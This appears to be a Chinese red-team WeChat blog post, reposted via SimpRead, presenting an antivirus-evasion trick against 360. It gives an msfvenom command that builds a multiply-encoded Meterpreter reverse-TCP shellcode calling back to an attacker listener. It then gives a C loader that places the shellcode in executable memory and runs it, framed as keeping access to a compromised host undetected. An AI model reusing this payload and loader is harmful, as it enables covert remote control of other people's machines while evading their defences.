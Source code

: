 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/c2yd0-EhK-Bc6raDZ27KXQ)

渗透攻击红队

一个专注于红队攻击的公众号

![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDoZibS8XU01CtEtSbwM3VGr3qskOmA1VkccY0mwKTCq6u2ia1xYRwBn3A/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "WX20200923-211932@2x.png")

  

  

大家好，这里是 **渗透攻击红队** 的第 **43** 篇文章，本公众号会记录一些我学习红队攻击的复现笔记（由浅到深），不定时更新

  

![图片](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC4T65TNkYZsPg2BJ2VwibZicuBhV9DGqxlsxwG0n2ibhLuBsiamU7S0SqvAp6p33ucxPkuiaDiaKD6ibJGaQ/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1)

免杀

  

在拿到一枚shell后，我们必须要做好权限维持，如果目标主机上有AV的话，我们一定要做好免杀处理，不能被发现！宁可不攻击也不要被发现，所以免杀是在内网渗透过程中最关键的一步！今天分享一个绕过某60的免杀技巧，总结就是：只要会代码，免杀随便绕！

  

  

**Metasploit 生成 C 过免杀 360**

**Metasploit**

  

Msf 相比大家都看过我直接写的笔记，大家也都会使用，这里也不一一细讲，直接上操作：

首先使用MSF的shikata_ga_nai构建x86一个shellcode：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.12 LPORT=9090 -e x86/shikata_ga_nai -i 8 -f c > shell.c
```

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LIAVhwqiaWuG5wVyAE60QiaG2hrTOnmfqHPm1BmXEJwsUTB6KGhupQW0ubMJiaNoRScQGia3u42DohBSw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

然后使用 VC 编译（我用的是 VC 2019）：

```
`#include <stdio.h>``#include <windows.h>``unsigned const char payload[] = "这里是生成的shellcode";``size_t size = 0;``int main(int argc, char** argv) {` `char* code;` `printf("Hello Hack saul!\n");` `code = (char*)VirtualAlloc(NULL, size, MEM_COMMIT,PAGE_EXECUTE_READWRITE);` `memcpy(code, payload, size);`  `((void(*)())code)();` `return(0);``}`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

字节可以改改，然后运行上线：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg== "qrcode_for_gh_c7af3a6c01f1_258.jpg")

  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

点分享

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

点点赞

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

点在看